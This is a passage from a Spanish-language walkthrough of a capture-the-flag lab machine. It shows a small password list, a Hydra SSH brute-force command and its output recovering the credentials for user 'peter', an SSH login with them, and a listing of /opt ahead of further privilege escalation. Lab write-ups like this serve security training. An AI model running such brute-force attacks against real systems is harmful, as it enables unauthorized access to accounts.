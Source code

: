 > pass.txt

```
sp1der
m0ral3s
gw3n2025
```

## Escalate user peter

### Hydra

```shell
hydra -L users.txt -P pass.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-05 13:08:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: peter   password: sp1der
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-05 13:08:42
```

Veremos que coincide unas credenciales, en este caso del usuario `peter`, por lo que vamos a conectarnos por `SSH`.

### SSH

```shell
ssh peter@<IP>
```

Metemos como contraseña `sp1der`...

```
peter@b2188aff6dfb:~$ whoami
peter
```

Veremos que estaremos dentro.

## Escalate user www-data

Si listamos la carpeta `/opt` veremos lo siguiente:

```
total 12
drwxrwxr-x 1 root spiderlab 4096 Sep  4 00:17 .
drwxr-xr-x 1 root root      4096 Sep  5 18:50 ..
-rwxr--r-- 1 root root       808 Sep  4 00:17 spidy.py
```
